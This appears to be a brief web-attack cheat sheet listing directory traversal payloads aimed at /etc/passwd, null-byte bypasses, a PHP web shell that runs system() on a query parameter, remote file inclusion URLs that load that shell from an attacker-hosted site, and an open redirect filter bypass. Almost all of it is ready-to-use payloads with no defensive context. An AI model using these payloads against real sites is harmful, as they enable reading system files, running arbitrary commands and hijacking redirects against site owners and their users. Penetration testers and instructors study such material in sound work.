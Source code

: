 # Directory traversal

`/file.php?file=file.php`  
`/file.php?file=file.php%00`

`/file.php?file=/hacker.png/../../../../../../../../../../../etc/passwd`  
`/file.php?file=/var/www(!removed >> hacker.png!)/../../../../../../../../../../../etc/passwd`  
`/file.php?file=../../../../../../../../../../../etc/passwd%00`

# LFI & RFI

**remotefile.txt** : 
```php
<?php 
  system($_GET['c']);
?>
___

<?php 

phpinfo();

?>
```
**target php file using include()** :
```
http://<website>/?page=intro.php

>>

/?c=[COMMAND]&page=https://<hackersite>/remotefile.txt 

OR

/?page=https://<hackersite>/remotefile.txt&c=[COMMAND] 
```
**NULL BYTE**
```
http://<website>/?page=intro.php

>>

/?c=[COMMAND]&page=https://<hackersite>/remotefile.txt%00 

OR

/?page=https://<hackersite>/remotefile.txt%00&c=[COMMAND]
```

# Open Redirect

When redirect is forced to start with a `/`, adding the website to redirect to starting with a double `/` bypasses the check.  
// is interpreted as an alias for http:// or https://.

`/redirect.php?url=//www.test.test` == GET / - Host: www.test.test